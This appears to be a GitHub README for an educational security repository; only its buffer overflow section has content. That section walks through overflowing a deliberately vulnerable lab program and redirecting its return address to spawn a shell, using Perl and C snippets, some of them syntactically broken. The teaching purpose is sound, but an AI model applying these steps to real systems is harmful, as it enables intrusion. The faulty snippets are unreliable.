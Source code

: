 ## Better be Safe than Sorry
#### A continuing updating repo of computer security examples and exploits.

1. [General Unix Vulnerabilities](#Unix_Vulnerabilities)

2. [SQL Injections](#SQL_Injections)

3. [Buffer Overflows](#Buffer_Overflows)

<a name="Unix_Vulnerabilities"></a>
#### General Unix Vulnerabilites

<a name="SQL_Injections"></a>
#### SQL Injections

<a name="Buffer_Overflows"></a>
#### Buffer Overflows
[This](http://www.tenouk.com/Bufferoverflowc/Bufferoverflow4.html) is a through and detailen example on how buffer overflow works.

Buffer overflow happens when when a program writing data to a buffer, exceeds the bounds of the buffer, causing the excess data to overflow into adjacent memory. 

From the example vulnerable code [here](https://github.com/amandazhuyilan/Better-be-Safe-than-Sorry/blob/master/buffer_overflow.c), the buffer overflow can happen at the ```strcat``` line, where the boundary of the concatenated string appended into the buffer is not checked, causing an overflowed buffer.

Steps to exploit this vulnerability and invoking a shell is as follows:

1. Complile the buffer_overflow.c with the following command, turning off the stack protection system and enabling debugging:

```gcc buffer_overflow.c -g -fno_stack_protector -o buffer_overflow```

2. Figure out how many pops it takes for us to get to the end of the buffer, usually the number is a little bigger than the buffer size (500 for this example). In this example we are going to use a perl script ```exploit.pl``` to help us generate the needed 500ish characters:

```
#!/usr/bin/perl

printf "A" x500;
```
```chmod +x exploit.pl``` to make sure it has the necessary permissions, then feed it into the ```buffer_overflow``` executable that we just compiled in gdb:
 
 ```$gdb(buffer_overflow)```
 ```$(gdb)run `exploit.pl` ```
 
Modify the number of "A"s in the perl script so that the buffer is overflowed successfully it would show up as a segmentation fault at 0x41414141. 

3. Add a ```stack.c``` that looks like this:
```
#include <stdio.h>

unsigned long get_sp()
{
	__asm__("mov %esp, %eax");
}

main()
{
	printf("SP is: %lx\n\n", get_sp());
}
```
Compile it with ```gcc -m32 -o stack```. This ```stack``` execuatble will print the current stack pointer that we will use later. Note that the stack pointer address doesn't change frequently, but it might be different if you run ```stack``` many commands away.

4. Modify ```exploit.pl``` to look like the following (also avaliable [here](https://github.com/amandazhuyilan/Better-be-Safe-than-Sorry/blob/master/buffer_overflow-exploit.pl)):
```
#!/usr/bin/perl

$RETURN_ADDRESS=0x'the sp address resulted from stack';

$RETURN_ADDRESS=$RETURN_ADDRESS - $ARGV[0];

$address = pack("l",$RETURN_ADDRESS);  //Perl has its own built in function to modify the address to little endian

printf "A" x517$address;   //517 is what I got. Put in your own number
```

Make sure you ```chmod +x exploit.pl``` after you finished modifiying it.

5. You're almost all good to go! Type in ```buffer_overflow `exploit.pl` ```. It'll be highly likely that you will see ```segmentation fault```, this is where ```$RETURN_ADDRESS=$RETURN_ADDRESS - $ARGV[0];``` in the ```exploit.pl``` will help modify the memory address a bit. Try ```buffer_overflow `exploit.pl -1000` ```, ```buffer_overflow `exploit.pl 1000` ``` etc. (Mine worked at ```buffer_overflow `exploit.pl -2000` ```).

If all the steps are performed in order, and right, a shell should be exploited :D





